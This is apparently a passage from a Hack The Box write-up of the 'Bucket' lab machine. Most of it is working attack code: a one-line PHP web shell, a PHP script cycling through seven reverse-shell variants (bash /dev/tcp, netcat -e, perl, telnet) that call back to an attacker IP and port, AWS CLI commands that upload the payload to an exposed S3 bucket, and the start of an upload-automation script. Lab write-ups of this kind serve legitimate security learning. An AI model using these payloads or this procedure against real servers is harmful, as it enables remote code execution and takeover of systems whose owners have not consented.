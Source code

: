 I use the `shell.php` we made in Passage and see if we get a reverse shell.  This file looks like this:
```bash
$ cat shell.php
<?php system($_REQUEST['cmd']) ?>
```

However, this reverse shell allowed us to access a `cmd` argument.  But when we go to the page, we cannot do so (it just asks us to download the file we uploaded), so we need a more intricate RCE script.  Here's one I found online:
```bash
$ cat rce.php
<?php
echo 'running shell';
$ip='10.10.14.239'; # THIS IS YOUR `tun0` PORT IP
$port='1234';
$reverse_shells = array(
    '/bin/bash -i > /dev/tcp/'.$ip.'/'.$port.' 0<&1 2>&1',
    '0<&196;exec 196<>/dev/tcp/'.$ip.'/'.$port.'; /bin/sh <&196 >&196 2>&196',
    '/usr/bin/nc '.$ip.' '.$port.' -e /bin/bash',
    'nc.exe -nv '.$ip.' '.$port.' -e cmd.exe',
    "/usr/bin/perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"".$ip.":".$port."\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'",
    'rm -f /tmp/p; mknod /tmp/p p && telnet '.$ip.' '.$port.' 0/tmp/p',
    'perl -e \'use Socket;$i="'.$ip.'";$p='.$port.';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''
);
foreach ($reverse_shells as $reverse_shell) {
   try {echo system($reverse_shell);} catch (Exception $e) {echo $e;}
   try {shell_exec($reverse_shell);} catch (Exception $e) {echo $e;}
   try {exec($reverse_shell);} catch (Exception $e) {echo $e;}
}
system('id');
?>
```

We want to upload this file to the AWS server, so we use the CLI:
```bash
$ aws --endpoint-url http://s3.bucket.htb/ s3 cp shell.php s3://adserver/shell.php
upload: ./shell.php to s3://adserver/shell.php                   
                                                                                                                                          
$ aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/       
                           PRE images/
2021-03-06 22:31:02       5344 index.html
2021-03-06 22:31:37         39 rce.php
```

Cool!  It has accepted our file!

I go onto http://bucket.htb/shell.php, but it has a 404 error.  This is strange... I list what is on `adserver` again, and it is gone!  It looks like the system cleans itself.  We will need to gain shell access fast then, it seems.  It looks to be cleaning itself ever minute or so.  We can write a `bash` script to automate uploading and accessing this file:
```bash
#! /bin/bash
#
# Usage: In seperate terminal run `nc -nlvp 1234` and then run `chmod u+x rce.sh && ./rce.sh`.
#
# Press Ctrl+C when `nc` listener has found something.

RCE_FILE_NAME="rce.php"

echo "Uploading RCE file to bucket..."

aws --endpoint-url http://s3.bucket.htb/ s3 cp "$RCE_FILE_NAME" s3://adserver/

```